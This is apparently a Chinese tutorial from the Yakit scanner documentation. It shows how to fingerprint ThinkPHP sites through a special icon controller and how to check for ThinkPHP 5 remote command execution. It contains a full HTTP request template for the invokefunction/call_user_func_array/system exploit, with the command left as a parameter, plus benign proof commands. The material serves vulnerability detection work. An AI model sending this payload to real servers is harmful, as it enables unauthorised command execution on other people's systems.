 ### thinkphp的特殊Controller

在p牛的博客中看到thinkphp有个控制器4e5e5d7364f443e28fbf0d3ae744a59a，会返回站点的图标

所以当http://xxx.xx/index.php?c=4e5e5d7364f443e28fbf0d3ae744a59a返回一个图片时，就可以判定这是thinkphp站点

```go
rsp,_ = http.Get("http://xxx.xx/?c=4e5e5d7364f443e28fbf0d3ae744a59a")
rspB,_ = http.dump(rsp)
header,body = str.SplitHTTPHeadersAndBodyFromPacket(rspB)
println(string(body))
```

输出如图

![](/img/products/yakit/thinkphp5-passiveScan.png)

从这里提取出两个指纹"IHDR"和"PNG"，如下

```go
// rootUrl是网站根路径
chechIcon1 = fn(rootUrl){
    u = rootUrl+"?c=4e5e5d7364f443e28fbf0d3ae744a59a"
    rsp,_ = http.Get(u)
    rspB,_ = http.dump(rsp)
    header,body = str.SplitHTTPHeadersAndBodyFromPacket(rspB)
    return str.Contains(string(body),"IHDR") && (str.Contains(string(body),"PNG") || str.Contains(string(body),"JPEG")) 
}
```

## 漏洞检测

如果返回包中包含预期的结果，就可以判定命令执行成功了，在此基础上，这个"预期的结果"还要和正常返回包区分开

如果是linux机器，可以执行这条命令`echo -n 'asdasczxc' | md5sum`，如果网站返回包包含`asdasczxc`的hash，则说明命令执行成功

如果是windows机器，可以执行`dir C:\Windows\`，因为windows机器`C:\Windows\`目录下有`system.ini`文件，所以如果返回包包含`system.ini`，则说明命令执行成功

## paylaod

可以通过[fuzz标签](https://www.yaklang.io/api-manual/buildinlibs/lib_fuzz#fuzz-标签定义以及使用)去写payload，如

```go
GET /index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]={{url({{params(cmd)}})}} HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
```

